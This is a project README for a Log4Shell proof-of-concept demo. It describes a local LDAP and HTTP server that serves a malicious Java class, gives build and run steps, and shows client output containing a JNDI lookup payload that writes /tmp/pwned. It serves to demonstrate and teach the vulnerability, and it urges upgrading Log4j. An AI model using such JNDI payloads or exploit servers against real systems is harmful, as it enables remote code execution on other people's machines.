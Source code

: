 ## Log4Shell Goof

Primeiro commit.

The purpose of this project is to demonstrate the Log4Shell exploit with Log4J versions older than `2.15.0`.

**NOTE**: Multiple additional vulnerabilities have been disclosed with log4j. Make sure you're using the latest `2.17.x` version.

This repo is based on the excellent proof-of-concept published by [BrianV](https://github.com/bmvermeer/log4jexploit/).
The PoC is a great starting point. This project expands on it by fleshing it out into a fully standalone demo.

For more information about the exploit and the mechanics of how it works, 
[here is a good blog post](https://snyk.io/blog/log4j-rce-log4shell-vulnerability-cve-2021-4428/).

### Requirements

You'll need one of the following Java SDKs:
  * 11.0.1 or earlier
  * 8u191 or earlier
  * 7u201 or earlier
  * 6u211 or earlier

Java SDKs newer than those versions don't have the same vulnerability.

### Building the PoC

In the root folder, run:

```
mvn clean install
```

**NOTE:** This project includes the Maven wrapper, so you don't need to have previously installed Maven.

### Running the PoC

This repo has two modules: server and client.

The server module runs a lean LDAP & HTTP server.

The LDAP server listens on port `9999` by default and will return an `LDAPResult` that includes a URL reference to a
Java class that will be deserialized and executed.

The HTTP server listens on port `8000` and responds to any request with a byte array that is the `Evil.class`.

`Evil` implements `ObjectFactory` which the JNDI mechanism hooks into to execute its `getObjectInstance` method. While
the method simply returns `null`, it uses `Runtime` to execute arbitrary code on the host machine. In this case, it
writes to a file called: `/tmp/pwned` to prove that it _could_ execute basically anything available on the machine.

This PoC should run as-is on Linux or Mac.

Open a terminal window and run the following:

```
cd log4shell-server
mvn exec:java
```

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-server ---
LDAP server listening on 0.0.0.0:9999
HTTP server listening on 0.0.0.0:8000
```

In another terminal window, run the following:

```
cd log4shell-client
JAVA_HOME=/Library/Java/JavaVirtualMachines/jdk1.8.0_111.jdk/Contents/Home \
mvn exec:java
```

**NOTE:** Referencing `JAVA_HOME` is important as the exploit only fully works with older JDK versions.
For example, you can download JDK 8u111 
[here](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html). If you download
and install the version for Mac, the above command will work for you.

You should see output that looks like the following:

```
[INFO] --- exec-maven-plugin:3.0.0:java (default-cli) @ log4shell-client ---
---------- JVM Props -------------
java.vm.version=25.111-b14
java.vm.vendor=Oracle Corporation
java.vm.name=Java HotSpot(TM) 64-Bit Server VM
java.vm.specification.name=Java Virtual Machine Specification
java.vm.specification.vendor=Oracle Corporation
java.vm.specification.version=1.8
java.vm.info=mixed mode
---------------------------------
20:27:49.676 [Main.main()] ERROR Main - test
/tmp/pwned DOES NOT EXIST
20:27:49.679 [Main.main()] ERROR Main - Output:${jndi:ldap://127.0.0.1:9999/Evil}
/tmp/pwned EXISTS - yah been pwned!
```

**NOTE**: The client app will tell you if it was successful. It does some checks, including looking for the 
`/tmp/pwned` file before and after the attack. You MUST delete the `/tmp/pwned` file between runs in order for the
client app to work properly. The file not being there and then being present after the attack is how it knows it's
been successful.
